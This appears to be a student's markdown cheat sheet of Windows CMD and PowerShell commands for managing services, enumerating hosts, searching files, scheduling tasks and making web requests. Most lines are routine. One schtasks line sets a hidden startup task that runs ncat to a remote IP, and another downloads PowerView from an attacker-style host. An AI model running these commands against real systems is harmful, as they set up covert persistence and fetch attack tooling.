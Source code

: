 # CMD Commands

## Handling Services
sc start<br>
sc stop<br>
sc config wuauserv start= disabled<br>

## Listing Services
tasklist /svc<br>
net stat<br>

## Finding Files
where.exe /R C:\Users\student\ bio.txt<br>
find "password" "C:\Users\student\not-passwords.txt"<br>
comp .\file-1.md .\file-2.md<br>
fc passwords.txt modded.txt /N<br>

## Gathering Infos 

systeminfo<br>
hostname<br>
ver<br>
ipconfig<br>
arp /a<br>
whoami<br>
whoami /priv<br>
whoami /groups<br>
net user -> All users on a Host<br>
net group -> All groups on a Host<br>
net share  <br>
net view -> domain resources, shares, printers, and more.<br>

## Scheduled Tasks

schtasks /Query /V /FO list -> Lists active tasks<br>
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"<br>

## Webrequests 
Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl RawContent<br>
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"<br>
(New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")<br>

## Module Components
- A directory containing all the required files and content, saved somewhere within `$env:PSModulePath`.  
  - This is done so that when you attempt to import it into your PowerShell session or Profile, it can be automatically found instead of having to specify the path.  

- A manifest file listing all files and pertinent information about the module and its function.  
  - This could include associated scripts, dependencies, the author, example usage, etc.  

- A code file – usually either a PowerShell script (`.ps1`) or a module file (`.psm1`) that contains the script functions and other information.  

- Other resources the module needs, such as help files, scripts, and other supporting documents.  

